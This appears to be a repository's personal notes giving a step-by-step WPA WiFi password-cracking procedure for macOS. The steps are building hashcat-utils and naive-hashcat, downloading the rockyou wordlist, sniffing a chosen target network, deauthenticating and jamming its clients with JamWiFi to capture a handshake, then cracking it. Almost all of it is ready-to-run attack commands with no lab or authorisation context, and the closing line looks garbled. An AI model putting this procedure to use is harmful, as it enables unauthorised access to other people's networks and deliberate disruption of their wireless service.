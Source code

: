 # wifi

        - guide
        https://github.com/brannondorsey/wifi-cracking/blob/master/appendix.md

        - build hashcat-utils (to convert cap to hash)
        cd wifi
        git clone https://github.com/hashcat/hashcat-utils
        gcc -o ./cap2hccapx ./hashcat-utils/src/cap2hccapx.c

        - build naive-hashcat (to crack hash)
        cd wifi
        git clone https://github.com/brannondorsey/naive-hashcat
        cd naive-hashcat
        ./build-hashcat-osx.sh

        - download 130M wordlist
        cd wifi/naive-hashcat
        curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

        - sniff
        mac -> wireless diagnostic tool
                -> window -> scan -> find the target network, note its channel and width
                -> window > sniffer

        - wait / deauth
        JamWiFi.app -> scan -> select target -> deauth -> jam -> do it

        - convert to hash by hashcat-utils
        cd wifi
        ./cap2hccapx /var/tmp/xxx.pcap /var/tmp/handshake.hccapx

        - start cracking
        cd wifi/naive-hashcat
        HASH_FILE=/var/tmp/handshake.hccapx POT_FILE=./cracked.pot HASH_TYPE=2500 ./naive-hashcat.sh

        once done, open cracked.pot with ppt
